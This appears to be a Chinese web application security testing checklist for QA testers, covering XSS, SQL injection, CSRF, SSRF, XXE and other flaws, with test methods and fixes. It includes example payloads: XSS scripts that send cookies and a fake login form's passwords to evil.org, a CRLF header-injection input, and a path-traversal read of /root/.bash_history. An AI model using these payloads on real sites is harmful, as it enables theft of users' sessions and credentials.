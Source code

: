```yaml
---
title: 安全测试
author: 孙鸿
date: 2023-02-23
categories:
- 孙鸿
---
```



## 大类检查点

![1.png](./img/1.png)
![2.png](./img/2.png)
![3.png](./img/3.png)

## 测试项详细说明

 * 上传功能
 * 
 

 *绕过文件上传检查功能

 *上传文件大小和次数限制

注册功能

注册请求是否安全传输

注册时密码复杂度是否后台校验

激活链接测试

重复注册

批量注册问题

 



 



 登录功能

登录请求是否安全传输

会话固定：Session fixation attack(会话固定攻击)是利用服务器的session不变机制，借他人之手获得认证和授权，然后冒充他人。

关键cookie是否HTTPONLY：如果Cookie设置了HttpOnly标志，可以在发生XSS时避免JavaScript读取Cookie。

但很多Cookie需要给前端JS使用。所以这里只需要关注关键Cookie,即唯一标识用户及登录状态的会话标识需要添加这个属性。

登录请求错误次数限制

“记住我”功能：勾选“记住我”后，Cookie中记录了用户名和密码信息。。。

本地存储敏感信息

 验证码功能

 



验证码的一次性

验证码绕过

短信验证码轰炸：如果这个接口没有限制策略，就会被人恶意利用

 

忘记密码功能

通过手机号找回：不过由于程序设计不合理，导致可以绕过短信验证码，从而修改别人的密码。（使用burpsuite抓包，修改响应值true）

通过邮箱找回

密码安全性要求

密码复杂度要求

密码保存要求

 横向越权测试

不同用户之间session共享，可以非法操作对方的数据。

纵向越权测试

很多应用简单的通过前端判断，或者低权限角色看不到对应的菜单，但并未在后台去做当前登录用户是否有权限。

 

XSS测试

跨站脚本攻击(Cross Site Scripting)：恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

反射型XSS：

*  利用请求参数param2，进行XSS注入，设置js等可执行或可跳转语句。param2=<script>document.write('<imgsrc="http://evil.org?grabcookie.jsp?cookie='+encodeURI(document.cookie)+'"/>')</script>。

这个网站的已登录用户去点击，cookie会被发送到 evil.org 上去。



处理意见：对特殊字符转义输出，特别是'"<>这几个。

 

存储型XSS：

 在论坛上发表帖子，假设论坛有漏洞，可以在帖子中注入下面的JS内容：

 ```sh
<script>



document.body.innerHTML="<h1>PleaseLogin</h1><form



action=http://evil.org/grabpassword.jspmethod=post><br>User name:<input type=text



name=user><br>Password:<inputtype=text name=password></p><input type=submit



name=login></form>



</script>
```
当其他用户浏览该帖子时，就会弹出登录框，如图（用户名+密码登陆界面）。



 



这是页面中注入的XSS生成的，如果您输入了账号密码，那就被发送给黑客了。



处理意见：对特殊字符转义输出，特别是如下几个'"<>

 



DOM型XSS

基于DOM型XSS样例，相比较与Reflected、Stored XSS属于server side execution issues而言，DOM based XSS 是client(browser)side execution issue。

 



 



Step1：如下面请求的hash部分，由客户端JS动态执行产生XSS注入。



http://www.webapp.com/example.jsp?param1=value1#\u003ciframeοnlοad=alert('xss')\u003e

 



Step2：动态生成：<divid="m"><iframeοnlοad="alert('xss')"></iframe></div>



 



这个比较难测试，一般需要阅读页面中的JS代码，去分析。没有固定的测试步骤，还是需要大家自己多学习。不作为强制项，WebInspect扫过即可。



处理意见：对特殊字符转义输出，特别是'"<>。



 



SQL注入测试

 



SQL注入攻击的基本原理是通过构建特殊的输入参数，迫使后台数据库执行额外的SQL语句，从而达到获取数据库数据的目的。



这些输入参数往往包含恶意的SQL注入语句，后台处理程序没有对这些参数进行过滤，且所使用的数据库查询手段为拼接方式，进而导致敏感数据外泄。



在动态构造SQL语句的过程中，除了特殊字符处理不当引起的SQL注入之外，错误处理不当也会为Web站点带来很多安全隐患。



最常见的问题就是将详细的内部错误信息显示给攻击者。这些细节会为攻击者提供与网站潜在缺陷相关的重要线索。



在SQL注入的过程中，如果Web服务器关闭了错误回显，那么是不是就安全了呢？答案显然是否定的，攻击者仍然可以通过 "盲注"技巧测试SQL命令是否注入成功。



 



所谓"盲注"就是在服务器没有错误回显时完成的注入方式，攻击者必须找到一个方法来验证注入的SQL语句是否执行。



"盲注"主要分为两种类型：基于时间的盲注和布尔盲注。



 



测试方法（黑盒）：sqlmap是一个自动化的SQL注入工具，其主要功能是扫描，发现并利用给定的URL的SQL注入漏洞，



 



测试方法（白盒）：如果项目的数据库持久层框架是mybatis，并且他的sqlmap中编写方式都是使用#{xxx}方式，而非使用${xxx}方式，就不存在SQl注入问题。



注：sqlMap中尽量不要使用$;$使用的是Statement（拼接字符串），会出现注入问题。#使用的是PreparedStatement（类似于预编译），将转义交给了数据库，不会出现注入问题；前者容易出现SQL注入之类的安全问题，所以mybatis推荐使用#。



写接口限制测试

比如：找回密码的邮件。多次调用，造成邮件轰炸。

新增的接口，如写文章、上传文件等。这些接口如果没有任何限制，那么恶意用户使用程序无限循环的调用接口，就会写入大量的数据。通过并发、循环方式上传大量文件，填满磁盘，消耗服务器资源。

修复建议：对写入量大的接口（如上传）做必要的限制。

CSRF测试

CSRF（Cross-site requestforgery），中文名称：跨站请求伪造。用户C在为退出A的情况下，浏览B，B使用C的session非法访问A。



 



 



检查：



Ø  是否有防御CSRF的随机数。验证码、csrf_token等都是。 有则 （通过）



Ø  是否验证referer。有则（通过）



Ø  请求的参数均可推测，无CSRF防御机制。（不通过）



测试中，需要对所有写接口检查，可以采用如下方式，记录接口，标记是否已检查。



修复建议：



Ø  方法1：验证码



验证码制用户必须与应用进行交互，才能完成最终请求。因此在通常情况下，验证码能够很好地遏制CSRF攻击。



但是这种方式易用性方面似乎不是太好，并且对于简单的图形验证码也有很多绕过机制。防御CSRF的一种辅助手段



 



Ø  方法2：Referer 验证



 



当浏览器发送一个HTTP请求时一般都会在Referer中表明发起请求的URL。



通过Referer我们可以通过判断一个请求是否为同域下发起的来防御CSRF，但是Referer可能会包含一些敏感信息甚至在某些情况下能够被伪造。



因此我们无法依赖于Referer来作为防御CSRF的主要手段，但是可以通过Referer来监控CSRF攻击的发生。



Ø  方法3：Token验证



在请求原参数不变的条件下，新增了一个随机的、不可预测参数Token是目前最普遍有效的方式。



后端在对数据处理前会首先对Token参数进行验证，只有用户请求中的Token与用户Session（或Cookie）中的Token一致时，才会认为请求是合法的。



由于Token的存在，攻击者就无法构造一个完整的请求实施CSRF攻击，从而保证了网站或系统的安全。



 



敏感信息泄露

 



SVN信息泄露：有数据库账号和密码等信息；



页面泄露敏感信息：有些WEB应用，在返回给客户端的响应中，包含了敏感信息，例如密码。



源码泄露​​​​​​​



 

 目录遍历

在web应用中，如下图所示的显示目录文件列表，会带来一定的安全隐患（服务器文件列表）。



测试方法：



此类问题可以通过WebInspect\AppScan\AWVS等web安全扫描器自动化发现。所以可以使用扫描器去做这类问题的检查。然后人工确认问题是否误报。



目录遍历的危害，大部分是低危的，但也有高危、甚至严重的问题，需要视被列出的文件情况而定。



修复建议：



如果是apache，可以在httpd.conf中修改配置



 



 CRLF

CRLF就是HTTP响应头拆分漏洞。是对用户输入的CR 和LF字符没有进行严格的过滤导致的。



在测试中，请求中的参数被直接用在响应的头信息中时，我们就需要测试此类问题。



在请求的参数中加入%0A%0Dtest:%20key=value等，看响应中是否会增加新的响应头。



会增加（不通过）

不会增加（通过）

修复建议：



过滤CR和LF字符。或者转义。



 



任意文件读取

问题描述：



这里举一个某产品的例子，推送平台



在添加应用页面，上传应用图标后，发现图标对应的URL地址为：



http://www.wukongtui.com/self_help/upload/downloadfile?filename=ico1449665436666.png



该地址具备任意文件读取特征，所以尝试读取/root/.bash_history。



测试方法：



一般遇到类似的读取文件的URL，可以修改参数比如上面的filename指向服务器上存在的其他文件，可以利用目录穿越（..），如果不加限制，就可以读取服务器的敏感信息。



很多安全问题，没有固定的思路，大家可以多学习：下面链接都是任意文件读取的漏洞。



http://www.secpulse.com/archives/tag/%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96



再如：resin的任意文件读取问题：



http://www.360doc.com/content/06/0901/14/10268_196116.shtml



修复建议：



对这类问题是对文件名做过滤，一般不允许跨目录（/../..）这类字符。



框架类的问题，我们通用项中不做测试，这个计划后续通过自己开发扫描工具，全网扫描。



 



 



URL重定向

问题描述：



未验证的URL重定向，可以用来钓鱼。如下例子：



http://www.163.com/go.do?url=http://evil.com



假设可以跳转到http://evil.com



可以利用用户对http://www.163.com地址的信任，在http://evil.com页面进行钓鱼。



所以需要对url参数进行验证。



比如，跳转仅限于网易名下的域名，则可以利用正则表达式判断url参数的合法性。仅供demo参考



^http(s)?://([\w-]*\.)*((163\.com)|(126\.com)|(yeah\.net)|(188\.com)|(youdao\.com)|(netease\.com)|(lofter\.com))(:\d*)?(/.*)?$



上面的正则判断前，先将目标字符串转换为小写，再比较。



url@url



比如在浏览器中输入http://www.163.com@www.baidu.com



浏览器打开的是http://www.baidu.com的网页。



利用这个特性，我们可以进行钓鱼。



解决的方法依然是对参数进行检查，上面提到的正则表达式能够解决该类问题。



测试方法：



略。可以采用扫描器执行，如WebInspect。此类问题属于P2等级，不做必测项目。



修复建议：



略。参考问题描述部分。



 



​​​​​​​无鉴权访问接口

问题描述：



部分API接口未作鉴权限制，使用户不需要登录即可访问，可造成系统或者用户信息泄漏；



测试方法：



使用burpsuite拦截用户访问API请求，删除sessionid信息，继续访问，访问成功测试不通过；



修复建议：



在服务端限制所有的接口均需要鉴权访问；



 



点击劫持ClickJacking

什么是点击劫持

点击劫持是一种视觉上的欺骗手段。攻击者使用一个透明的、不可见的iframe，覆盖在一个网页上，然后诱使用户在该网页上进行操作，此时用户将在不知情的情况下点击透明的iframe页面。通过调整iframe页面的位置，可以诱使用户恰好点击在iframe页面的一些功能性按钮上。



Frame busting

通常可以写一段JavaScript代码，以禁止iframe的嵌套。这种方法叫frame busting。比如下面这段代码：



X-Frame-Options

因为frame busting存在被绕过的可能，所以我们需要寻找其他更好的解决方案。一个比较好的方案是使用一个HTTP头--X-Frame-Options。



X-Frame-Options可以说是为了解决ClickJacking 而生的。



 



XXE

什么是XXE

XML External Entity Injection（简称XXE Injection）是指后台程序在对XML格式的参数或文件进行解析时，由于没有控制外部实体的引入，所造成的安全漏洞。XXE漏洞所引起的主要安全风险有：



远程文件读取。

服务器端请求伪造(Server-Side Request Forgery)。

DOS攻击。

任意代码执行（PHP环境）。

XXE攻击案例

STEP1:确定攻击点



以下是某平台对外提供的服务接口，参数格式为xml，这种格式的请求有可能会触发后台的XXE漏洞。



STEP2:检测是否支持外部实体



XXE问题测试

如果我们的接口请求参数格式是XML格式，或者我们的应用程序支持解析客户上传的XML文件，那么我们就需要考虑此类测试。



至于怎么测试？可以参考攻击案例。



XXE的防御

禁止外部实体的解析



检查所使用的底层XML解析库，默认禁止外部实体的解析，以Java的XML解析代码



为例：



 



SSRF

什么是SSRF

 



web应用根据用户指定的URL地址获取图片，下载文件等功能。但是，如果应用程序没有对用户提供的URL地址与远端服务器返回信息没有进行验证和过滤，就有可能被利用作为代理攻击远程和本地服务器。这种攻击形式称为服务端请求伪造攻击（Server-side Request Forgery）。



 



常见出现该问题的功能：



l 分享：通过URL地址分享网页内容

l 转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览

l 图片加载与下载：通过URL地址加载或下载图片

l 图片、文章收藏功能

l 其他通过使用API获取URL的功能

 



排查与修复

过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。

统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。

限制请求的端口为http常用的端口，比如，80,443,8080,8090。

黑名单内网ip。避免应用被用来获取获取内网数据，攻击内网。

禁用不需要的协议。仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp:// 等引起的问题。



CORS问题

CORS简介：

SOP(就是Same Origin Policy)同源策略。



AJAX不能跨域访问。



http://www.a.com/a.html 中使用AJAX读取http://www.a.com/test.html 中的内容，OK。

http://www.a.com/a.html 中使用AJAX读取http://www.b.com/test.html 中的内容，FAIL。

CORS (Cross Origin Resources Sharing)，即跨域资源共享。



CORS就是为了让AJAX可以实现可控的跨域访问而生的。



在www.b.com/test.html中开头加上



<?php



header("Access-Control-Allow-Origin: http://www.a.com");



?>



这样



http://www.a.com/a.html 中使用AJAX读取http://www.b.com/test.html 中的内容，OK。



在apache中设置



DocumentRoot "E:/xampp/htdocs"



Header set Access-Control-Allow-Origin "www.a.com"

